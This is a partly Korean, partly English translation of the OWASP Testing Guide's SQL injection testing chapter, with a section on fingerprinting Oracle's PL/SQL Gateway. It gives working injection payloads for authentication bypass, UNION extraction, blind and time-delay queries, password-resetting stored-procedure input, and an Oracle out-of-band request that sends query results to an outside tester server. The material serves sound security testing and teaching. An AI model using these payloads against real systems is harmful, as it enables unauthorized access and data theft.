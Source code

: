 ============================================================================================
OTG-INPVAL-005 (SQL 인젝션 침투 테스트)
============================================================================================

|

개요
============================================================================================

SQL 인젝션 공격은 클라이언트 브라우저로 부터 웹 어플리케이션으로 데이터 입력 또는 전송 폼을 통해 부분 또는 전체 SQL 쿼리를 삽입하는 것입니다.
성공적인 SQL 인젝션 공격은 데이터베이스로 부터 민감한 데이터를 읽거나, 수정, 실행, 복구 등을 할 수 있습니다.

일반적으로 웹 어플리케이션은 사용자가 입력한 데이터와 프로그래머에 의해 작성된 SQL 구문을 포함하여 구성되어 있습니다.

.. code-block:: html

    select title, text from news where id=$id 

위의 예제를 보면 $id는 사용자 입력 데이터이고, 나머지 SQL 구문은 프로그래머에 의해 작성된 것입니다.

이러한 구성 때문에, 사용자는 보통 SQL 구문에 사용자가 입력한 부분을 실행하도록 시도할 수 있습니다.


The example below illustrates the user-supplied data "10 or 1=1", changing the logic of the SQL statement, modifying the WHERE clause adding a condition "or 1=1". SQL Injection attacks can be divided into the following three classes: 

- Inband: data is extracted using the same channel that is used to inject the SQL code. 
검색 데이터가 어플리케이션 웹 페이지에 직접 표시되는 가장 간단한 공격 유형입니다.
- Out-of-band: data is retrieved using a different channel.
- Inferential 또는 Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server. 

성공적인 SQL Injection 공격은 문법적으로 정확한 SQL 쿼리를 만들어야 합니다. 

If the application returns an error message generated by an incorrect query, then it may be easier for an attacker to reconstruct the logic of the original query and, therefore, understand how to perform the injection correctly. However, if the application hides the error details, then the tester must be able to reverse engineer the logic of the original query. 

About the techniques to exploit SQL injection flaws there are five commons techniques. Also those techniques sometimes can be used in a combined way (e.g. union operator and out-of-band): 
 
- Union 조작: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set. 
- Boolean: use Boolean condition(s) to verify whether certain conditions are true or false. 
- Error 기반: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection. 
- Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server). 
- Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn't have some kind of answer (result, output, or error) from the application. 

|

테스트 방법
============================================================================================

탐지 기술
-----------------------------------------------------------------------------------------

The first step in this test is to understand when the application interacts with a DB Server in order to access some data. Typical examples of cases when an application needs to talk to a DB include: 
 
- Authentication forms: when authentication is performed using a web form, chances are that the user credentials are checked against a database that contains all usernames and passwords (or, better, password hashes). 
- Search engines: the string submitted by the user could be used in a SQL query that extracts all relevant records from a database. 
- E-Commerce sites: the products and their characteristics (price, description, availability, etc) are very likely to be stored in a database. 

The tester has to make a list of all input fields whose values could be used in crafting a SQL query, including the hidden fields of POST requests and then test them separately, trying to interfere with the query and to generate an error. Consider also HTTP headers and Cookies. 
The very first test usually consists of adding a single quote (') or a semicolon (;) to the field or parameter under test. The first is used in SQL as a string terminator and, if not filtered by the application, would lead to an incorrect query. The second is used to end a SQL statement and, if it is not filtered, it is also likely to generate an error. The output of a vulnerable field might resemble the following (on a Microsoft SQL Server, in this case): 

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e14' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed 
    quotation mark before the 
    character string ''. 
    /target/target.asp, line 113

Also comment delimiters (-- or /* */, etc) and other SQL keywords like 'AND' and 'OR' can be used to try to modify the query. A very simple but sometimes still effective technique is simply to insert a string where a number is expected, as an error like the following might be generated: 

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
    converting the 
    varchar value 'test' to a column of data type int. 
    /target/target.asp, line 113 

Monitor all the responses from the web server and have a look at the HTML/javascript source code. Sometimes the error is present inside them but for some reason (e.g. javascript error, HTML comments, etc) is not presented to the user. A full error message, like those in the examples, provides a wealth of information to the tester in order to mount a successful injection attack. However, applications often do not provide so much detail: a simple '500 Server Error' or a custom error page might be issued, meaning that we need to use blind injection techniques. In any case, it is very important to test each field separately: only one variable must vary while all the other remain constant, in order to precisely understand which parameters are vulnerable and which are not. 

|

기본 SQL Injection 테스트
-----------------------------------------------------------------------------------------

Example 1 (classical SQL Injection)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^


.. code-block:: html

    SELECT * FROM Users WHERE Username='$username' AND 
    Password='$password' 

일반적으로 웹 어플리케이션에서 사용자 인증을 위해 사용되는 쿼리입니다.

If the query returns a value it means that inside the database a user with that set of credentials exists, then the user is allowed to login to the system, otherwise access is denied. The values of the input fields are generally obtained from the user through a web form. Suppose we insert the following User-name and Password values: 

.. code-block:: html

    $username = 1' or '1' = '1
    $password = 1' or '1' = '1 

위 입력은 다음과 같이 입력될 것입니다.

.. code-block:: html

    SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND 
    Password='1' OR '1' = '1' 

If we suppose that the values of the parameters are sent to the server through the GET method, and if the domain of the vulnerable web site is www.example.com, the request that we'll carry out will be: 

After a short analysis we notice that the query returns a value (or a set of values) because the condition is always true (OR 1=1). 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 

In this way the system has authenticated the user without knowing the username and password. 
In some systems the first row of a user table would be an administrator user. This may be the profile returned in some cases. 

|

또 다른 예제 하나를 더 보겠습니다. 

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='$username') AND 
    (Password=MD5('$password'))) 

이 경우 인젝션을 하기 위해 두 가지 문제를 해결해야 하는데, 하나는 괄호 사용이고 다른 하는 MD5 함수 사용입니다.
우선적으로, 괄호 사용 문제의 경우 괄호 개수에 맞게 닫힘 괄호를 입력해주어야 합니다.
두번째 문제인, MD5의 경우 주석 처리를 통해 함수가 처리되지 않도록 합니다.
모든 DBMS는 주속 구문을 가지고 있는데, 대다수 공통적으로 '/*'을 사용합니다.

.. code-block:: html

    $username = 1' or '1' = '1'))/* 

    $password = foo 

In this way, we'll get the following query: 

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND 
    (Password=MD5('foo'))) 

(Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.) 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))/*&password=foo

This may return a number of values. Sometimes, the authentication code verifies that the number of returned records/results is exactly equal to 1. In the previous examples, this situation would be difficult (in the database there is only one value per user). In order to go around this problem, it is enough to insert a SQL command that imposes a condition that the number of the returned results must be one. (One record returned) In order to reach this goal, we use the operator "LIMIT <num>", where <num> is the number of the results/records that we want to be returned. With respect to the previous example, the value of the fields Username and Password will be modified as follows: 

.. code-block:: html

    $username = 1' or '1' = '1')) LIMIT 1/* 

    $password = foo 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))%20LIMIT%201/*&password=foo 

|

Example 2 (simple SELECT statement): Consider the following SQL query: 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. A good way to test if the application is vulnerable in this scenario is play with logic, using the operators AND and OR. 

Consider the request: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=2 
    
    SELECT * FROM products WHERE id_product=10 AND 1=2 

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=1 

|

Example 3 (Stacked queries): 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Depending on the API which the web application is using and the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) it may be possible to execute multiple queries in one call. 


Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

A way to exploit the above scenario would be: 

.. code-block:: html

    http://www.example.com/product.php?id=10; INSERT INTO 
    users (...) 

This way is possible to execute many queries in a row and independent of the first query. 

|

Fingerprinting the Database 
-----------------------------------------------------------------------------------------

Even the SQL language is a standard, every DBMS has its peculiarity and differs from each other in many aspects like special commands, functions to retrieve data such as users names and databases, features, comments line etc. 

When the testers move to a more advanced SQL injection exploitation they need to know what the back end database is. 

1. The first way to find out what back end database is used is by observing the error returned by the application. Follow are some examples: 


**MySql:**

You have an error in your SQL syntax; check the manual 
that corresponds to your MySQL server version for the 
right syntax to use near '\'' at line 1 

**Oracle:**

ORA-00933: SQL command not properly ended 

**MS SQL Server:**

Microsoft SQL Native Client error '80040e14' 
Unclosed quotation mark after the character string 

**PostgreSQL:**

Query failed: ERROR: syntax error at or near 
"'" at character 56 in /www/site/test.php on line 121. 

2. If there is no error message or a custom error message, the tester can try to inject into string field using concatenation technique: 

|

Exploitation Techniques 
-----------------------------------------------------------------------------------------

Union Exploitation Technique
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ 

The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original query. The result of the forged query will be joined to the result of the original query, allowing the tester to obtain the values of columns of other tables. Suppose for our examples that the query executed from the server is the following: 

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=$id

We will set the following $id value: 

.. code-block:: html

    $id=1 UNION ALL SELECT creditCardNumber,1,1 FROM Credit-
    CardTable

We will have the following query: 

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=1 
    UNION ALL SELECT creditCardNumber,1,1 FROM CreditCard-
    Table 

Which will join the result of the original query with all the credit card numbers in the CreditCardTable table. The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected other two values. These two values are necessary, because the two queries must have an equal number of parameters/columns, in order to avoid a syntax error. 

The first detail a tester needs to exploit the SQL injection vulnerability using such technique is to find the right numbers of columns in the SELECT statement. In order to achieve this the tester can use ORDER BY clause followed by a number indicating the numeration of database's column selected: 

.. code-block:: html

    http://www.example.com/product.php?id=10 ORDER BY 10--

If the query executes with success the tester can assume, in this example, there are 10 or more columns in the SELECT statement. If the query fails then there must be fewer than 10 columns returned by the query. If there is an error message available, it would probably be: 

.. code-block:: html

    Unknown column '10' in 'order clause' 

After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were 3 columns in the example above, the tester could try each column type, using the NULL value to help them: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT
    1,null,null--

If the query fails, the tester will probably see a message like: 

.. code-block:: html

    All cells in a column must have the same datatype 

If the query executes with success, the first column can be an integer. Then the tester can move further and so on: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT 
    1,1,null-

After the successful information gathering, depending on the application, it may only show the tester the first result, because the application treats only the first line of the result set. In this case, it is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid (supposing there is no entry in the database which ID is 99999): 

.. code-block:: html

    http://www.example.com/product.php?id=99999 UNION 
    SELECT 1,1,null-


Boolean Exploitation Technique 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Boolean exploitation technique is very useful when the tester finds a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. For example, this behavior happens in cases where the programmer has created a custom error page that does not reveal anything on the structure of the query or on the database. (The page does not return a SQL error, it may just return a HTTP 500, 404, or redirect). 
By using inference methods, it is possible to avoid this obstacle and thus to succeed in recovering the values of some desired fields. This method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. We consider, as always, the www.example.com domain and we suppose that it contains a parameter named id vulnerable to SQL injection. This means that carrying out the following request: 
http://www.example.com/index.php?id=1' 
We will get one page with a custom message error which is due to a syntactic error in the query. We suppose that the query executed on the server is: 
SELECT field1, field2, field3 FROM Users WHERE Id='$Id' 
Which is exploitable through the methods seen previously. What we want to obtain is the values of the username field. The tests that we will execute will allow us to obtain the value of the user-name field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database. For our examples, we will use the following pseudo-functions: 
SUBSTRING (text, start, length): returns a substring starting from the position "start" of text and of length "length". I f "start" is greater than the length of text, the function returns a null value. 
ASCII (char): it gives back ASCII value of the input character. A null value is returned if char is 0. 
LENGTH (text): it gives back the number of characters in the input text. 
Through such functions, we will execute our tests on the first character and, when we have discovered the value, we will pass to the second and so on, until we will have discovered the entire value. The tests will take advantage of the function SUBSTRING, in order to select only one character at a time (selecting a single character means to impose the length parameter to 1), and the function ASCII, in order to obtain the ASCII value, so that we can do numerical comparison. The results of the comparison will be done with all the values of the ASCII table, until the right value is found. As an example, we will use the following value for Id: 
$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1 
That creates the following query (from now on, we will call it "inferential query"): 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
ASCII(SUBSTRING(username,1,1))=97 AND '1'='1' 
The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. If we get a false value, then we increase the index of the ASCII table from 97 to 98 and we repeat the request. If instead we obtain a true value, we set to zero the index of the ASCII table and we analyze the next character, modifying the parameters of the SUBSTRING function. The problem is to understand in which way we can distinguish tests returning a true value from those that return false. To do this, we create a query that always returns false. This is possible by using the following value for Id: 
$Id=1' AND '1' = '2 
Which will create the following query: 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' 
= '2' 
The obtained response from the server (that is HTML code) will be the false value for our tests. This is enough to verify whether the value obtained from the execution of the inferential query is equal to the value obtained with the test executed before. Sometimes, this method does not work. If the server returns two different pages as a result of two identical consecutive web requests, we will not be able to discriminate the true value from the false value. In these particular cases, it is necessary to use particular filters that allow us to eliminate the code that changes between the two requests and to obtain a template. Later on, for every inferential request executed, we will extract the relative template from the response using the same function, and we will perform a control between the two templates in order to decide the result of the test. 


In the previous discussion, we haven't dealt with the problem of determining the termination condition for out tests, i.e., when we should end the inference procedure. A techniques to do this uses one characteristic of the SUBSTRING function and the LENGTH function. When the test compares the current character with the ASCII code 0 (i.e., the value null) and the test returns the value true, then either we are done with the inference procedure (we have scanned the whole string), or the value we have analyzed contains the null character. We will insert the following value for the field Id: 
$Id=1' AND LENGTH(username)=N AND '1' = '1 
Where N is the number of characters that we have analyzed up to now (not counting the null value). The query will be: 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
LENGTH(username)=N AND '1' = '1' 
The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value. 
The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability. 
Error based Exploitation technique 
An Error based exploitation technique is useful when the tester for some reason can't exploit the SQL injection vulnerability using other technique such as UNION. The Error based technique consists in forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product 
Consider also the request to a script who executes the query above: 
http://www.example.com/product.php?id=10 
The malicious request would be (e.g. Oracle 10g): 
http://www.example.com/product.php?id=10||UTL_INADDR. 
GET_HOST_NAME( (SELECT user FROM DUAL) )-
In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the host name of the parameter passed to it, which is other query, the name of the user. When the database looks for a host name with the user database name, it will fail and return an error message like: 
ORA-292257: host SCOTT unknown 
Then the tester can manipulate the parameter passed to GET_ HOST_NAME() function and the result will be shown in the error message. 
Out of band Exploitation technique 
This technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester's server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section. 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product 
Consider also the request to a script who executes the query above: 
http://www.example.com/product.php?id=10 
The malicious request would be: 
http://www.example.com/product.php?id=10||UTL_HTTP. 
request('testerserver.com:80'||(SELET user FROM DUAL)-
In this example, the tester is concatenating the value 10 with the result of the function UTL_HTTP.request. This Oracle function will try to connect to 'testerserver' and make a HTTP GET request containing the return from the query "SELECT user FROM DUAL". The tester can set up a webserver (e.g. Apache) or use the Netcat tool: 
/home/tester/nc .nLp 80 
GET /SCOTT HTTP/1.1 Host: testerserver.com Connection: close 
Time delay Exploitation technique 
The Boolean exploitation technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product Consider also the request to a script who executes the query above: 


http://www.example.com/product.php?id=10 
The malicious request would be (e.g. MySql 5.x): 
http://www.example.com/product.php?id=10 AND IF(version() 
like '5%', sleep(10), 'false'))-
In this example the tester if checking whether the MySql version is 
5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn't need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds. 
Stored Procedure Injection 
When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure. 
Consider the following SQL Server Stored Procedure: 
Create procedure user_login @username varchar(20), @passwd varchar(20) As Declare @sqlstring varchar(250) Set @sqlstring = ' Select 1 from users Where username = ' + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go 
User input: anyusername or 1=1' anypassword 
This procedure does not sanitize the input, therefore allowing the return value to show an existing record with these parameters. 
NOTE: This example may seem unlikely due to the use of dynamic SQL to log in a user, but consider a dynamic reporting query where the user selects the columns to view. The user could insert malicious code into this scenario and compromise the data. Consider the following SQL Server Stored Procedure: 
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ' Select ' + @ columnamelist + ' from ReportTable' exec(@sqlstring) Go 
User input: 
1 from users; update users set password = 'password'; select * 
This will result in the report running and all users' passwords being updated. 
Automated Exploitation 
Most of the situation and techniques presented here can be performed in a automated way using some tools. In this article the tester can find information how to perform an automated auditing using SQLMap: 
https:/
www.owasp.org/index.php/Automated_Audit_using_ SQLMap 

|

Tools 
============================================================================================

- SQL Injection Fuzz Strings (from wfuzz tool): https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/ SQL.txt 
- OWASP SQLiX 
- Francois Larouche: Multiple DBMS SQL Injection tool - SQL Power Injector 
- ilo--, Reversing.org -sqlbftools 
- Bernardo Damele A. G.: sqlmap, automatic SQL injection tool: http://sqlmap.org/ 
- icesurfer: SQL Server Takeover Tool -sqlninja 
- Pangolin: Automated SQL Injection Tool -Pangolin 
- Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool: http://code.google.com/p/mysqloit/ 
- Antonio Parata: Dump Files by SQL inference on Mysql: SqlDumper 
- bsqlbf, a blind SQL injection tool in Perl 

|

References 
============================================================================================

- Top 10 2013-A1-Injection 
- SQL Injection Technology specific Testing Guide pages have been created for the following DBMSs: 
- Oracle 
- MySQL 
- SQL Server 

|

Whitepapers 
-------------------------------------------------------------------------------------------

- Victor Chapela: "Advanced SQL Injection": http://www.owasp.org/images/7/74/Advanced_SQL_Injection. ppt 
- Chris Anley: "Advanced SQL Injection In SQL Server Applications": https://sparrow.ece.cmu.edu/group/731-s11/readings/anleysql-inj.pdf 
- Chris Anley: "More Advanced SQL Injection": http://www.encription.co.uk/downloads/more_advanced_sql_ injection.pdf 
- David Litchfield: "Data-mining with SQL Injection and Inference": http://www.databasesecurity.com/webapps/sqlinference.pdf 
- Imperva: "Blinded SQL Injection": https://www.imperva.com/lg/ lgw.asp?pid=369 
- Ferruh Mavituna: "SQL Injection Cheat Sheet": http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/ 
- Kevin Spett from SPI Dynamics: "SQL Injection": https://docs.google.com/file/ 
d/0B5CQOTY4YRQCSWRHNkNaaFMyQTA/edit 
- Kevin Spett from SPI Dynamics: "Blind SQL Injection": http://www.net-security.org/dl/articles/Blind_SQLInjection.pdf 

|

|

============================================================================================
Oracle 테스트
============================================================================================

개요
============================================================================================

Web based PL/SQL applications are enabled by the PL/SQL Gateway, which is is the component that translates web requests into database queries. Oracle has developed a number of software implementations, ranging from the early web listener product to the Apache mod_plsql module to the XML Database (XDB) web server. All have their own quirks and issues, each of which will be thoroughly investigated in this chapter. Products that use the PL/SQL Gateway include, but are not limited to, the Oracle HTTP Server, eBusiness Suite, Portal, HTMLDB, WebDB and Oracle Application Server. 

|

테스트 방법
============================================================================================

How the PL/SQL Gateway works 
Essentially the PL/SQL Gateway simply acts as a proxy server taking the user's web request and passes it on to the database server where it is executed. 
[1] The web server accepts a request from a web client and determines if it should be processed by the PL/SQL Gateway. 
[2] The PL/SQL Gateway processes the request by extracting the requested package name, procedure, and variables. 
[3] The requested package and procedure are wrapped in a block of anonymous PL/SQL, and sent to the database server. 
[4] The database server executes the procedure and sends the results back to the Gateway as HTML. 
[5] The gateway sends the response, via the web server, back to the client. 
Understanding this point is important - the PL/SQL code does not exist on the web server but, rather, in the database server. This means that any weaknesses in the PL/SQL Gateway or any weaknesses in the PL/SQL application, when exploited, give an attacker direct access to the database server; no amount of firewalls will prevent this. 
URLs for PL/SQL web applications are normally easily recognizable and generally start with the following (xyz can be any string and represents a Database Access Descriptor, which you will learn more about later): 
http://www.example.com/pls/xyz 
http://www.example.com/xyz/owa 
http://www.example.com/xyz/plsql 
While the second and third of these examples represent URLs from older versions of the PL/SQL Gateway, the first is from more recent versions running on Apache. In the plsql.conf Apache configuration file, /pls is the default, specified as a Location with the PLS module as the handler. The location need not be /pls, however. The absence of a file extension in a URL could indicate the presence of the Oracle PL/SQL Gateway. Consider the following URL: 
http://www.server.com/aaa/bbb/xxxxx.yyyyy 
If xxxxx.yyyyy were replaced with something along the lines of "ebank. home," "store.welcome," "auth.login," or "books.search," then there's a fairly strong chance that the PL/SQL Gateway is being used. It is also possible to precede the requested package and procedure with the name of the user that owns it - i.e. the schema - in this case the user is "webuser": 
http://www.server.com/pls/xyz/webuser.pkg.proc 
In this URL, xyz is the Database Access Descriptor, or DAD. A DAD specifies information about the database server so that the PL/SQL Gateway can connect. It contains information such as the TNS connect string, the user ID and password, authentication methods, and so on. These DADs are specified in the dads.conf Apache configuration file in more recent versions or the wdbsvr.app file in older versions. Some default DADs include the following: 
SIMPLEDAD 
HTMLDB 
ORASSO 
SSODAD 
PORTAL 
PORTAL2 
PORTAL30 
PORTAL30_SSO 
TEST 
DAD 
APP 
ONLINE 
DB 
OWA 

Determining if the PL/SQL Gateway is running 
When performing an assessment against a server, it's important first to know what technology you're actually dealing with. If you don't already know, for example, in a black box assessment scenario, then the first thing you need to do is work this out. Recognizing a web based PL/SQL application is pretty easy. First, there is the format of the URL and what it looks like, discussed above. Beyond that there are a set of simple tests that can be performed to test for the existence of the PL/ SQL Gateway. 
Server response headers 
The web server's response headers are a good indicator as to whether the server is running the PL/SQL Gateway. The table below lists some of the typical server response headers: 
Oracle-Application-Server-10g Oracle-Application-Server-10g/10.1.2.0.0 Oracle-HTTP-Server Oracle-Application-Server-10g/9.0.4.1.0 Oracle-HTTP-Server Oracle-Application-Server-10g OracleAS-Web-Cache10g/9.0.4.2.0 (N) Oracle-Application-Server-10g/9.0.4.0.0 Oracle HTTP Server Powered by Apache Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3a Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3d Oracle HTTP Server Powered by Apache/1.3.12 (Unix) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.12 (Win32) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.19 (Win32) mod_ plsql/3.0.9.8.3c Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/3.0.9.8.3b Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/9.0.2.0.0 Oracle_Web_Listener/4.0.7.1.0EnterpriseEdition Oracle_Web_Listener/4.0.8.2EnterpriseEdition Oracle_Web_Listener/4.0.8.1.0EnterpriseEdition Oracle_Web_listener3.0.2.0.0/2.14FC1 Oracle9iAS/9.0.2 Oracle HTTP Server Oracle9iAS/9.0.3.1 Oracle HTTP Server 


The NULL test 
In PL/SQL, "null" is a perfectly acceptable expression: 
SQL> BEGIN
 2 NULL;
 3 END;
 4 / 
PL/SQL procedure successfully completed. 
We can use this to test if the server is running the PL/SQL Gateway. Simply take the DAD and append NULL, then append NOSUCHPROC: 
http://www.example.com/pls/dad/null 
http://www.example.com/pls/dad/nosuchproc 
If the server responds with a 200 OK response for the first and a 404 Not Found for the second then it indicates that the server is running the PL/SQL Gateway. 
Known package access 
On older versions of the PL/SQL Gateway, it is possible to directly access the packages that form the PL/SQL Web Toolkit such as the OWA and HTP packages. One of these packages is the OWA_UTIL package, which we'll speak about more later on. This package contains a procedure called SIGNATURE and it simply outputs in HTML a PL/SQL signature. Thus requesting 
"This page was produced by the PL/SQL Web Toolkit on date" 
returns the following output on the webpage 
"This page was produced by the PL/SQL Cartridge on date" 
or "This page was produced by the PL/SQL Cartridge on date" 
If you don't get this response but a 403 Forbidden response then you can infer that the PL/SQL Gateway is running. This is the response you should get in later versions or patched systems. 
Accessing Arbitrary PL/SQL Packages in the Database 
